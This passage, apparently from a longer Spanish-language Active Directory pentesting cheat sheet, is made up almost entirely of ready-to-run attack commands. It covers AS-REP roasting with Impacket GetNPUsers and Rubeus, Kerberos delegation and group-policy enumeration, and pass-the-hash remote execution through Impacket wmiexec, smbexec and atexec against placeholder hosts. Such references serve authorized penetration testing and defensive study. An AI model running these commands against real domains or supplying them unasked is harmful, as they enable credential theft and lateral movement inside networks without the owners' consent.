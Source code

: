 **Impacket (GetNPUsers)**

```bash
# Enumerar cuentas que no requieren preautenticación Kerberos
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py dominio/ -no-pass -usersfile usuarios.txt -dc-ip 1.1.1.1
```

**Rubeus**

```powershell
# Ejecutar Rubeus para realizar AS-REP Roasting
Rubeus.exe asreproast
```

### Enumeración de Políticas y Delegación

**Gpresult**

```bash
# Obtener políticas de grupo aplicadas a un usuario
gpresult /R /USER dominio\usuario /S 1.1.1.1 /U dominio\administrador /P password
```

**Gpupdate**

```bash
# Forzar la actualización de políticas de grupo
gpupdate /force
```

**Adfind**

```bash
# Enumerar delegaciones Kerberos
adfind -h 1.1.1.1 -b "dc=dominio,dc=com" -f "msDS-AllowedToDelegateTo=*"
```

### Explotación de Active Directory

### Pass-the-Hash

**Impacket (wmiexec, smbexec, atexec)**

```bash
# Pass-the-Hash usando wmiexec
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py dominio/usuario@1.1.1.1 -hashes lmhash:nthash

# Pass-the-Hash usando smbexec
python3 /usr/share/doc/python3-impacket/examples/smbexec.py dominio/usuario@1.1.1.1 -hashes lmhash:nthash

# Pass-the-Hash usando atexec
python3 /usr/share/doc/python3-impacket/examples/atexec.py dominio/usuario@1.1.1.1 -hashes lmhash:nthash
```
